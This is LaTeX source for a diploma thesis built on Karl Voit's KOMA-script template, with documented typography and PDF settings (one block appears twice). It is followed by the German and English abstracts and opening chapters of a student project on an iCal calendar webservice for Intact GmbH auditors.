%doc% \LaTeX{} places floating environments below footnotes if \texttt{b}
%doc% (bottom) is used as (default) placement algorithm. This is certainly
%doc% not appealing for most people and is deactivated in this template by
%doc% using the package \texttt{footmisc} with its option \texttt{bottom}.
%doc% 
%% see also: http://www.komascript.de/node/858 (German description)
\usepackage[bottom]{footmisc}

%doc% 
%doc% \subsection{Spacings of list environments}
%doc% 
%doc% By default, \LaTeX{} is using vertical spaces between items of enumerate, 
%doc% itemize and description environments. This is fine for multi-line items.
%doc% Many times, the user does just write single-line items where the larger
%doc% vertical space is inappropriate. The \href{http://ctan.org/pkg/enumitem}{enumitem}
%doc% package provides replacements for the pre-defined list environments and
%doc% offers many options to modify their appearances.
%doc% This template is using the package option for \texttt{noitemsep} which
%doc% mimimizes the vertical space between list items.
%doc% 
\usepackage{enumitem}
\setlist{noitemsep}   %% kills the space between items

%doc% 
%doc% \subsection{\texttt{csquotes} --- Correct quotation marks}\myinteresting
%doc% \label{sub:csquotes}
%doc% 
%doc% \emph{Never} use quotation marks found on your keyboard.
%doc% They end up in strange characters or false looking quotation marks.
%doc% 
%doc% In \LaTeX{} you are able to use typographically correct quotation marks. The package 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} offers you with 
%doc% \verb#\enquote{foobar}# a command to get correct quotation marks around \enquote{foobar}.
%doc% Please do check the package options in order to modify
%doc% its settings according to the language used\footnote{most of the time in 
%doc% combination with the language set in the options of the \texttt{babel} package}.
%doc% 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} is also recommended 
%doc% by \texttt{biblatex} (see Section~\ref{sec:references}). 
\usepackage[babel=true,strict=true,english=american,german=guillemets]{csquotes}

%doc% 
%doc% \subsection{Line spread}
%doc% 
%doc% If you have to enlarge the distance between two lines of text, you can
%doc% increase it using the \texttt{\mylinespread} command in \texttt{main.tex}. By default, it is
%doc% deactivated (set to 100~percent). Modify only with caution since it influences the
%doc% page layout and could lead to ugly looking documents.
\linespread{\mylinespread}

%doc% 
%doc% \subsection{Optional: Lines above and below the chapter head}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/node/24}{a method to
%doc% add lines above and below chapter head} which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%% Source: http://www.komascript.de/node/24
%disabled% %% 1st get a new command
%disabled% \newcommand*{\ORIGchapterheadstartvskip}{}%
%disabled% %% 2nd save the original definition to the new command
%disabled% \let\ORIGchapterheadstartvskip=\chapterheadstartvskip
%disabled% %% 3rd redefine the command using the saved original command
%disabled% \renewcommand*{\chapterheadstartvskip}{%
%disabled%   \ORIGchapterheadstartvskip
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled% }
%disabled% %% see above
%disabled% \newcommand*{\ORIGchapterheadendvskip}{}%
%disabled% \let\ORIGchapterheadendvskip=\chapterheadendvskip
%disabled% \renewcommand*{\chapterheadendvskip}{%
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled%   \ORIGchapterheadendvskip
%disabled% }

%doc% 
%doc% \subsection{Optional: Chapter thumbs}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/chapterthumbs-example}{a method to
%doc% add chapter thumbs} (in combination with the package \texttt{scrpage2}) which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%disabled% \makeatletter
%disabled% % Safty first
%disabled% \@ifundefined{chapter}{\let\chapter\undefined
%disabled%   \chapter must be defined to use chapter thumbs!}{%
%disabled%  
%disabled% % Two new commands for the width and height of the boxes with the
%disabled% % chapter number at the thumbs (use of commands instead of lengths
%disabled% % for sparing registers)
%disabled% \newcommand*{\chapterthumbwidth}{2em}
%disabled% \newcommand*{\chapterthumbheight}{1em}
%disabled%  
%disabled% % Two new commands for the colors of the box background and the
%disabled% % chapter numbers of the thumbs
%disabled% \newcommand*{\chapterthumbboxcolor}{black}
%disabled% \newcommand*{\chapterthumbtextcolor}{white}
%disabled%  
%disabled% % New command to set a chapter thumb. I'm using a group at this
%disabled% % command, because I'm changing the temporary dimension \@tempdima
%disabled% \newcommand*{\putchapterthumb}{%
%disabled%   \begingroup
%disabled%     \Large
%disabled%     % calculate the horizontal possition of the right paper border
%disabled%     % (I ignore \hoffset, because I interprete \hoffset moves the page
%disabled%     % at the paper e.g. if you are using cropmarks)
%disabled%     \setlength{\@tempdima}{\@oddheadshift}% (internal from scrpage2)
%disabled%     \setlength{\@tempdima}{-\@tempdima}%
%disabled%     \addtolength{\@tempdima}{\paperwidth}%
%disabled%     \addtolength{\@tempdima}{-\oddsidemargin}%
%disabled%     \addtolength{\@tempdima}{-1in}%
%disabled%     % putting the thumbs should not change the horizontal
%disabled%     % possition
%disabled%     \rlap{%
%disabled%       % move to the calculated horizontal possition
%disabled%       \hspace*{\@tempdima}%
%disabled%       % putting the thumbs should not change the vertical
%disabled%       % possition
%disabled%       \vbox to 0pt{%
%disabled%         % calculate the vertical possition of the thumbs (I ignore
%disabled%         % \voffset for the same reasons told above)
%disabled%         \setlength{\@tempdima}{\chapterthumbwidth}%
%disabled%         \multiply\@tempdima by\value{chapter}%
%disabled%         \addtolength{\@tempdima}{-\chapterthumbwidth}%
%disabled%         \addtolength{\@tempdima}{-\baselineskip}%
%disabled%         % move to the calculated vertical possition
%disabled%         \vspace*{\@tempdima}%
%disabled%         % put the thumbs left so the current horizontal possition
%disabled%         \llap{%
%disabled%           % and rotate them
%disabled%           \rotatebox{90}{\colorbox{\chapterthumbboxcolor}{%
%disabled%               \parbox[c][\chapterthumbheight][c]{\chapterthumbwidth}{%
%disabled%                 \centering
%disabled%                 \textcolor{\chapterthumbtextcolor}{%
%disabled%                   \strut\thechapter}\\
%disabled%               }%
%disabled%             }%
%disabled%           }%
%disabled%         }%
%disabled%         % avoid overfull \vbox messages
%disabled%         \vss
%disabled%       }%
%disabled%     }%
%disabled%   \endgroup
%disabled% }
%disabled%  
%disabled% % New command, which works like \lohead but also puts the thumbs (you
%disabled% % cannot use \ihead with this definition but you may change this, if
%disabled% % you use more internal scrpage2 commands)
%disabled% \newcommand*{\loheadwithchapterthumbs}[2][]{%
%disabled%   \lohead[\putchapterthumb#1]{\putchapterthumb#2}%
%disabled% }
%disabled%  
%disabled% % initial use
%disabled% \loheadwithchapterthumbs{}
%disabled% \pagestyle{scrheadings}
%disabled%  
%disabled% }
%disabled% \makeatother

%%%% END
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':
# command
%doc% in \texttt{main.tex}.  For standard usage it is recommended to stay with the
%doc% default settings.
%doc% 
%doc% 
%% ========================================================================

%doc%
%doc% Some basic microtypographic settings are provided by the
%doc% \texttt{microtype}
%doc% package\footnote{\url{http://ctan.org/pkg/microtype}}. This template
%doc% uses the rather conservative package parameters: \texttt{protrusion=true,factor=900}.
\usepackage[protrusion=true,factor=900]{microtype}

%doc%
%doc% \subsection{French spacing}
%doc%
%doc% \paragraph{Why?} see~\textcite[p.\,28, p.\,30]{Bringhurst1993}: `2.1.4 Use a single word space between sentences.'
%doc%
%doc% \paragraph{How?} see~\textcite[p.\,185]{Eijkhout2008}:\\
%doc% \verb#\frenchspacing  %% Macro to switch off extra space after punctuation.# \\
\frenchspacing  %% Macro to switch off extra space after punctuation.
%doc%
%doc% Note: This setting might be default for \myacro{KOMA} script.
%doc%


%doc%
%doc% \subsection{Font}
%doc% 
%doc% This template is using the Palatino font (package \texttt{mathpazo}) which results
%doc% in a legible document and matching mathematical fonts for printout.
%doc% 
%doc% It is highly recommended that you either stick to the Palatino font or use the
%doc% \LaTeX{} default fonts (by removing the package \texttt{mathpazo}).
%doc% 
%doc% Chosing different fonts is not
%doc% an easy task. Please leave this to people with good knowledge on this subject.
%doc% 
%doc% One valid reason to change the default fonts is when your document is mainly
%doc% read on a computer screen. In this case it is recommended to switch to a font
%doc% \textsf{which is sans-serif like this}. This template contains several alternative
%doc% font packages which can be activated in this file.
%doc% 

% for changing the default font, please go to the next subsection!

%doc%
%doc% \subsection{Text figures}
%doc% 
%doc% \ldots also called old style numbers such as 0123456789. 
%doc% (German: \enquote{Mediäval\-ziffern\footnote{\url{https://secure.wikimedia.org/wikibooks/de/wiki/LaTeX-W\%C3\%B6rterbuch:\_Medi\%C3\%A4valziffern}}})
%doc% \paragraph{Why?} see~\textcite[p.\,44f]{Bringhurst1993}: 
%doc% \begin{quote}
%doc% `3.2.1 If the font includes both text figures and titling figures, use
%doc%  titling figures only with full caps, and text figures in all other
%doc%  circumstances.'
%doc% \end{quote}
%doc% 
%doc% \paragraph{How?} 
%doc% Quoted from Wikibooks\footnote{\url{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Text\_figures\_.28.22old\_style.22\_numerals.29}}:
%doc% \begin{quote}
%doc% Some fonts do not have text figures built in; the textcomp package attempts to
%doc% remedy this by effectively generating text figures from the currently-selected
%doc% font. Put \verb#\usepackage{textcomp}# in your preamble. textcomp also allows you to
%doc% use decimal points, properly formatted dollar signs, etc. within
%doc% \verb#\oldstylenums{}#.
%doc% \end{quote}
%doc% \ldots but proposed \LaTeX{} method does not work out well. Instead use:\\
%doc% \verb#\usepackage{hfoldsty}#  (enables text figures using additional font) or \\
%doc% \verb#\usepackage[sc,osf]{mathpazo}# (switches to Palatino font with small caps and old style figures enabled).
%doc%
%\usepackage{hfoldsty}  %% enables text figures using additional font
%% ... OR use ...
\usepackage[sc,osf]{mathpazo} %% switches to Palatino with small caps and old style figures

%% Font selection from:
%%     http://www.matthiaspospiech.de/latex/vorlagen/allgemein/preambel/fonts/
%% use following lines *instead* of the mathpazo package above:
%% ===== Serif =========================================================
%% for Computer Modern (LaTeX default font), simply remove the mathpazo above
%\usepackage{charter}\linespread{1.05} %% Charter
%\usepackage{bookman}                  %% Bookman (laedt Avant Garde !!)
%\usepackage{newcent}                  %% New Century Schoolbook (laedt Avant Garde !!)
%% ===== Sans Serif ====================================================
%\renewcommand{\familydefault}{\sfdefault}  %% this one in *combination* with the default mathpazo package
%\usepackage{cmbright}                  %% CM-Bright (eigntlich eine Familie)
%\usepackage{tpslifonts}                %% tpslifonts % Font for Slides


%doc% 
%doc% \subsection{\texttt{myacro} --- Abbrevations using \textsc{small caps}}\myinteresting
%doc% \label{sec:myacro}
%doc% 
%doc% \paragraph{Why?} see~\textcite[p.\,45f]{Bringhurst1993}: `3.2.2 For abbrevations and
%doc% acronyms in the midst of normal text, use spaced small caps.'
%doc% 
%doc% \paragraph{How?} Using the predefined macro \verb#\myacro{}# for things like
%doc% \myacro{UNO} or \myacro{UNESCO} using \verb#\myacro{UNO}# or \verb#\myacro{UNESCO}#.
%doc% 
\DeclareRobustCommand{\myacro}[1]{\textsc{\lowercase{#1}}} %%  abbrevations using small caps


%doc% 
%doc% \subsection{Colorized headings and links}
%doc% 
%doc% This document template is able to generate an output that uses colorized
%doc% headings, captions, page numbers, and links. The color named `DispositionColor'
%doc% used in this document is defined near the definition of package \texttt{color}
%doc% in the preamble (see section~\ref{subsec:miscpackages}). The changes required
%doc% for headings, page numbers, and captions are defined here.
%doc% 
%doc% Settings for colored links are handled by the definitions of the
%doc% \texttt{hyperref} package (see section~\ref{sec:pdf}).
%doc% 
%\setheadsepline{.4pt}[\color{DispositionColor}]
\renewcommand{\headfont}{\normalfont\sffamily\color{DispositionColor}}
\renewcommand{\pnumfont}{\normalfont\sffamily\color{DispositionColor}}
\addtokomafont{disposition}{\color{DispositionColor}}
\addtokomafont{caption}{\color{DispositionColor}\footnotesize}
\addtokomafont{captionlabel}{\color{DispositionColor}}

%doc% 
%doc% \subsection{No figures or tables below footnotes}
%doc% 
%doc% \LaTeX{} places floating environments below footnotes if \texttt{b}
%doc% (bottom) is used as (default) placement algorithm. This is certainly
%doc% not appealing for most people and is deactivated in this template by
%doc% using the package \texttt{footmisc} with its option \texttt{bottom}.
%doc% 
%% see also: http://www.komascript.de/node/858 (German description)
\usepackage[bottom]{footmisc}

%doc% 
%doc% \subsection{Spacings of list environments}
%doc% 
%doc% By default, \LaTeX{} is using vertical spaces between items of enumerate, 
%doc% itemize and description environments. This is fine for multi-line items.
%doc% Many times, the user does just write single-line items where the larger
%doc% vertical space is inappropriate. The \href{http://ctan.org/pkg/enumitem}{enumitem}
%doc% package provides replacements for the pre-defined list environments and
%doc% offers many options to modify their appearances.
%doc% This template is using the package option for \texttt{noitemsep} which
%doc% mimimizes the vertical space between list items.
%doc% 
\usepackage{enumitem}
\setlist{noitemsep}   %% kills the space between items

%doc% 
%doc% \subsection{\texttt{csquotes} --- Correct quotation marks}\myinteresting
%doc% \label{sub:csquotes}
%doc% 
%doc% \emph{Never} use quotation marks found on your keyboard.
%doc% They end up in strange characters or false looking quotation marks.
%doc% 
%doc% In \LaTeX{} you are able to use typographically correct quotation marks. The package 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} offers you with 
%doc% \verb#\enquote{foobar}# a command to get correct quotation marks around \enquote{foobar}.
%doc% Please do check the package options in order to modify
%doc% its settings according to the language used\footnote{most of the time in 
%doc% combination with the language set in the options of the \texttt{babel} package}.
%doc% 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} is also recommended 
%doc% by \texttt{biblatex} (see Section~\ref{sec:references}). 
\usepackage[babel=true,strict=true,english=american,german=guillemets]{csquotes}

%doc% 
%doc% \subsection{Line spread}
%doc% 
%doc% If you have to enlarge the distance between two lines of text, you can
%doc% increase it using the \texttt{\mylinespread} command in \texttt{main.tex}. By default, it is
%doc% deactivated (set to 100~percent). Modify only with caution since it influences the
%doc% page layout and could lead to ugly looking documents.
\linespread{\mylinespread}

%doc% 
%doc% \subsection{Optional: Lines above and below the chapter head}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/node/24}{a method to
%doc% add lines above and below chapter head} which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%% Source: http://www.komascript.de/node/24
%disabled% %% 1st get a new command
%disabled% \newcommand*{\ORIGchapterheadstartvskip}{}%
%disabled% %% 2nd save the original definition to the new command
%disabled% \let\ORIGchapterheadstartvskip=\chapterheadstartvskip
%disabled% %% 3rd redefine the command using the saved original command
%disabled% \renewcommand*{\chapterheadstartvskip}{%
%disabled%   \ORIGchapterheadstartvskip
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled% }
%disabled% %% see above
%disabled% \newcommand*{\ORIGchapterheadendvskip}{}%
%disabled% \let\ORIGchapterheadendvskip=\chapterheadendvskip
%disabled% \renewcommand*{\chapterheadendvskip}{%
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled%   \ORIGchapterheadendvskip
%disabled% }

%doc% 
%doc% \subsection{Optional: Chapter thumbs}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/chapterthumbs-example}{a method to
%doc% add chapter thumbs} (in combination with the package \texttt{scrpage2}) which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%disabled% \makeatletter
%disabled% % Safty first
%disabled% \@ifundefined{chapter}{\let\chapter\undefined
%disabled%   \chapter must be defined to use chapter thumbs!}{%
%disabled%  
%disabled% % Two new commands for the width and height of the boxes with the
%disabled% % chapter number at the thumbs (use of commands instead of lengths
%disabled% % for sparing registers)
%disabled% \newcommand*{\chapterthumbwidth}{2em}
%disabled% \newcommand*{\chapterthumbheight}{1em}
%disabled%  
%disabled% % Two new commands for the colors of the box background and the
%disabled% % chapter numbers of the thumbs
%disabled% \newcommand*{\chapterthumbboxcolor}{black}
%disabled% \newcommand*{\chapterthumbtextcolor}{white}
%disabled%  
%disabled% % New command to set a chapter thumb. I'm using a group at this
%disabled% % command, because I'm changing the temporary dimension \@tempdima
%disabled% \newcommand*{\putchapterthumb}{%
%disabled%   \begingroup
%disabled%     \Large
%disabled%     % calculate the horizontal possition of the right paper border
%disabled%     % (I ignore \hoffset, because I interprete \hoffset moves the page
%disabled%     % at the paper e.g. if you are using cropmarks)
%disabled%     \setlength{\@tempdima}{\@oddheadshift}% (internal from scrpage2)
%disabled%     \setlength{\@tempdima}{-\@tempdima}%
%disabled%     \addtolength{\@tempdima}{\paperwidth}%
%disabled%     \addtolength{\@tempdima}{-\oddsidemargin}%
%disabled%     \addtolength{\@tempdima}{-1in}%
%disabled%     % putting the thumbs should not change the horizontal
%disabled%     % possition
%disabled%     \rlap{%
%disabled%       % move to the calculated horizontal possition
%disabled%       \hspace*{\@tempdima}%
%disabled%       % putting the thumbs should not change the vertical
%disabled%       % possition
%disabled%       \vbox to 0pt{%
%disabled%         % calculate the vertical possition of the thumbs (I ignore
%disabled%         % \voffset for the same reasons told above)
%disabled%         \setlength{\@tempdima}{\chapterthumbwidth}%
%disabled%         \multiply\@tempdima by\value{chapter}%
%disabled%         \addtolength{\@tempdima}{-\chapterthumbwidth}%
%disabled%         \addtolength{\@tempdima}{-\baselineskip}%
%disabled%         % move to the calculated vertical possition
%disabled%         \vspace*{\@tempdima}%
%disabled%         % put the thumbs left so the current horizontal possition
%disabled%         \llap{%
%disabled%           % and rotate them
%disabled%           \rotatebox{90}{\colorbox{\chapterthumbboxcolor}{%
%disabled%               \parbox[c][\chapterthumbheight][c]{\chapterthumbwidth}{%
%disabled%                 \centering
%disabled%                 \textcolor{\chapterthumbtextcolor}{%
%disabled%                   \strut\thechapter}\\
%disabled%               }%
%disabled%             }%
%disabled%           }%
%disabled%         }%
%disabled%         % avoid overfull \vbox messages
%disabled%         \vss
%disabled%       }%
%disabled%     }%
%disabled%   \endgroup
%disabled% }
%disabled%  
%disabled% % New command, which works like \lohead but also puts the thumbs (you
%disabled% % cannot use \ihead with this definition but you may change this, if
%disabled% % you use more internal scrpage2 commands)
%disabled% \newcommand*{\loheadwithchapterthumbs}[2][]{%
%disabled%   \lohead[\putchapterthumb#1]{\putchapterthumb#2}%
%disabled% }
%disabled%  
%disabled% % initial use
%disabled% \loheadwithchapterthumbs{}
%disabled% \pagestyle{scrheadings}
%disabled%  
%disabled% }
%disabled% \makeatother

%%%% END
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':



\newcommand{\myLaT}{\LaTeX{}@TUG\xspace} 

\hyphenation{ex-am-ple hy-phen-ate}

%%%% Time-stamp: <2018-03-11 14:31:45 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%

%doc%
%doc% \section{\texttt{pdf\_settings.tex} --- Settings related to PDF output}
%doc% \label{sec:pdf}
%doc%
%doc% The file \verb#template/pdf_settings.tex# basically contains the definitions for
%doc% the \href{http://tug.org/applications/hyperref/}{\texttt{hyperref} package}
%doc% including the
%doc% \href{http://www.ctan.org/tex-archive/macros/latex/required/graphics/}{\texttt{graphicx}
%doc% package}. Since these settings should be the last things of any \LaTeX{}
%doc% preamble, they got their own \TeX{} file which is included in \texttt{main.tex}.
%doc%
%doc% \paragraph{What should I do with this file?} The settings in this file are
%doc% important for \myacro{PDF} output and including graphics. Do not exclude the
%doc% related \texttt{input} command in \texttt{main.tex}. But you might want to
%doc% modify some settings after you read the
%doc% \href{http://tug.org/applications/hyperref/}{documentation of the \texttt{hyperref} package}.
%doc%


%% Fix positioning of images in PDF viewers. (disabled by
%% default; see https://github.com/novoid/LaTeX-KOMA-template/issues/4
%% for more information)
%% I do not have time to read about possible side-effect of this
%% package for now.
% \usepackage[hypcap]{caption}

%% Declarations of hyperref should be the last definitions of the preamble:
%% FIXXME: black-and-white-version for printing!

\pdfcompresslevel=9

\usepackage[%
unicode=true, % loads with unicode support
%a4paper=true, %
pdftex=true, %
backref, %
pagebackref=false, % creates backward references too
bookmarks=true, % generate bookmarks in PDF files
bookmarksopen=false, % when starting with AcrobatReader, the Bookmarkcolumn is opened
pdfpagemode=None,% None, UseOutlines, UseThumbs, FullScreen
plainpages=false, % correct, if pdflatex complains: ``destination with same identifier already exists''
%% colors: https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Colors
urlcolor=DispositionColor, %%
linkcolor=DispositionColor, %%
pagecolor=DispositionColor, %%
citecolor=DispositionColor, %%
anchorcolor=DispositionColor, %%
colorlinks=\mycolorlinks, % turn on/off colored links (on: better for
                          % on-screen reading; off: better for printout versions)
]{hyperref}

%% all strings need to be loaded after hyperref was loaded with unicode support
%% if not the field is garbled in the output for characters like ČŽĆŠĐ
\hypersetup{
pdftitle={\mytitle}, %
pdfauthor={\myauthor}, %
%pdfsubject={\mysubject}, %
pdfcreator={Accomplished with: pdfLaTeX, biber, and hyperref-package. No animals, MS-EULA or BSA-rules were harmed.},
pdfproducer={\myauthor},
}

%\DeclareGraphicsExtensions{.pdf}

%%%% END
%%% Local Variables:
%%% TeX-master: "../main"
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':
  %% should be *last* definitions in 


\begin{document}

\frontmatter                    %% KOMA: roman page numbers and such; only available in scrbook

%%%% Time-stamp: <2013-03-18 14:35:00 vk>
%% ========================================================================
%%%% Disclaimer
%% ========================================================================
%%
%% created by
%%
%%      Karl Voit


\newcommand{\mycolophon}{%%
  This document 
  %% was written with \myacro{GNU}~Emacs, 
  is set in Palatino, compiled with
  \href{http://LaTeX.TUGraz.at}{pdf\LaTeX2e} and
  \href{http://en.wikipedia.org/wiki/Biber_(LaTeX)}{\texttt{Biber}}.

  The \LaTeX{} template from Karl Voit is based on
  \href{http://www.komascript.de/}{KOMA script} and can be found 
  online: \href{https://github.com/novoid/LaTeX-KOMA-template}{https://github.com/novoid/LaTeX-KOMA-template}
}


%%% Local Variables: 
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End: 
                %% defines information about editor, LaTeX, font, ...

\input{\mytitlepage}       

%%%% Time-stamp: <2017-02-14 16:01:12 vk>
%% ========================================================================
%%%% Disclaimer
%% ========================================================================
%%
%% created by
%%
%%      Karl Voit, and Matthias Wölbitsch
%%
%%
%% code for the date and signature fields adapted from
%% http://tex.stackexchange.com/a/20562


\newcommand{\textfield}[2]{
  \vbox{
    \hsize=#1\kern3cm\hrule\kern1ex
    \hbox to \hsize{\strut\hfil\footnotesize#2\hfil}
  }
}


\ifthenelse{\boolean{english_affidavit}}{
  \section*{Affidavit}
  I declare that I have authored this thesis independently, that I have
  not used other than the declared sources/resources, and that I have
  explicitly indicated all material which has been quoted either
  literally or by content from the sources used. The text document
  uploaded to \myacro{TUGRAZ}online is identical to the present master‘s
  thesis.

  \hbox to \hsize{\textfield{4cm}{Date}\hfil\hfil\textfield{7cm}{Signature}}
}{
  \section*{Eidesstattliche Erklärung}
  \foreignlanguage{ngerman}{%
    Wir erklären an Eides statt, dass wir die
vorliegende Diplomarbeit selbstständig und ohne fremde Hilfe verfasst, keine anderen als die angegebenen Quellen und Hilfsmittel benutzt und die den benutzten Quellen wörtlich und inhaltlich entnommenen Stellen als solche erkenntlich gemacht haben.}

    \hbox to \hsize{\textfield{4cm}{Datum}\hfil\hfil\textfield{7cm}{Unterschrift}}
    \hbox to \hsize{\textfield{4cm}{Datum}\hfil\hfil\textfield{7cm}{Unterschrift}}
    \hbox to \hsize{\textfield{4cm}{Datum}\hfil\hfil\textfield{7cm}{Unterschrift}}
}

\newpage


%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% TeX-master: "../main"
%%% End:
  

%% include the abstract without chapter number but include it on table of contents:
%\cleardoublepage
%\phantomsection
%\addcontentsline{toc}{chapter}{Abstract}
%%%% Time-stamp: <2013-02-25 10:31:01 vk>


\chapter*{Abstract - DE}
\label{cha:abstract}

Diese Diplomarbeit befasst sich mit einem Stück Software welche im Auftrag der Firma Intact GmbH angefertigt wurde. Das Ziel der Diplomarbeit ist es, AuditorInnen welche die bereits existierende Anwendung Ecert verwenden, Kalender immer und überall verfügbar zu machen. Erreicht wurde dies mit Verwendung des iCal-Formates welches von jeder Kalender-Applikation verwendet wird um Kalender anzuzeigen und zu speichern. Die Kalender der AuditorInnen werden gespeichert und nachdem man sich auf einer Webseite angemeldet hat, kann man auf alle seine Kalender zugreifen und in jegliche Kalender-Applikation einbinden. Somit müssen sich AuditorInnen nicht mehr darauf konzentrieren, dass alle ihre/seine Kalender auf dem Gerät sind, denn diese sind nun übers Internet erreichbar. 
\vspace{20px}
\linebreak
\pagebreak

\pagebreak

\chapter*{Abstract - EN}
\label{cha:abstract}
The subject of this thesis is a piece of software which was written on the behalf of Intact GmbH. The aim of this thesis is to offer auditors who already use Intact GmbHs own software, Ecert, the ability to access their calendars everywhere and anytime they want. This achievable because nearly every calendar-app uses the iCal-format to save the calendar. The iCal-format gets saved and the auditor just needs to login into a website and there they can find all their calendars ready to be integrated in their favorite calendar-app.

%\glsresetall %% all glossary entries should be used in long form (again)
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%\ .\\+'?'>1'\:'='
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "main"
%%% End:
              

\tableofcontents               

\mainmatter                     %% KOMA: marks main part using arabic page numbers and such; only available in scrbook

	\chapter{Aufgabenstellung}
\label{sec:Aufgabenstellung}
Die Aufgabenstellung für diese Diplomarbeit wurde von der Intact GmbH vorgegeben. Die Aufgabe war, einen Webservice inklusive Webseite zu erstellen, welcher es ermöglicht, Kalender inklusive Dateien welche an Terminen angeheftet sind, immer und überall in ein beliebiges Kalenderprogramm einzubinden. \\
Dieser Webservice inklusive Webseite wird für ausgewählte Kunden der Intact GmbH für Testzwecke zur Verfügung gestellt. \\

\section{Technische Aspekte der Aufgabenstellung}
\label{sec:TechnischeAspekteDerAufgabenstellung}
Die meisten Kalenderanwendungen verwenden das iCal-Dateiformat, um Kalender zu speichern. In dieser Diplomarbeit wurde das iCal-Format so umgewandelt, dass es in einer MSSQL-Datenbank gespeichert werden kann. Die Daten dieser Datenbank werden dann von einem Parser in das iCal-Format umgewandelt. Das von den Daten der Datenbank generierte iCal-Format kann dann über einen Webservice mit einem URL in ein beliebiges Kalenderprogramm eingebunden werden. Für die Implementierung des Webservices und des Parsers wurden .Net-Technologien verwendet, genaueres zu .Net und MSSQL in Kapitel \ref{sec:Technologien}.  Dateien, welche an Terminen angeheftet werden, werden über URLs zu einem FTP-Server zugreifbar sein, da das Speichern von Dateien in der Datenbank ineffizient wäre. Genaueres zum iCal-Format in Kapitel \ref{sec:iCal}.
\pagebreak

\section{Team}
\label{sec:Team}
	\subsection*{Matthias Franz}
		Verantwortlich für: 
		\begin{itemize}
			\item iCal
			\item Datenbank
			\item Projektleitung
		\end{itemize}
	\subsection*{Dario Wagner}
		Verantwortlich für: 
		\begin{itemize}
			\item Parser
			\item iCal
		\end{itemize}
	\subsection*{Marcel Stering}
		Verantwortlich für: 
		\begin{itemize}
			\item Security
			\item Webseite
		\end{itemize}	
\pagebreak			
	%TODO
% Überarbeiten
% Sprint Backlog Bild verwenden? (zitieren)
% Product Owner Quelle kein Autor

\renewcommand{\theauthor}{Matthias Franz}

\chapter{Projektmanagement und Organisation}
In diesem Kapitel geht es um die Organisatorische- und Managementbezogene Teile der Diplomarbeit. Es geht um Scrum und die Anwendung von Scrum innerhalb dieses Projektes und der allgemeinen Abhandlung von Projektmanagement.

\label{sec:ProjUOrg}

\section{Auftraggeber - Intact Systems}
\label{sec:Auftraggeber}
Unsere Diplomarbeit wurde im Auftrag des Unternehmens Intact Systems durchgeführt. Intact Systems ist eine in Lebring sitzende Softwareentwicklungsfirma welche sich auf Audits, Zertifizierungsmanagement, Rückverfolgbarkeit und Qualitätsmanagement spezialisiert hat auch Sitze in der USA und in der Schweiz. Unsere Ansprechpartner waren Rudolf Rauch und Mathias Schober. Intact bietet maßgeschneiderte Softwarelösungen und standardisierte. Intacts bekanntestes Produkt ist Ecert, welches interne Audits, Zertifizierung, Gütesiegel, Lieferanten und noch vieles mehr managen kann.
	\subsection*{Kontaktaufnahme mit Intact Systems}
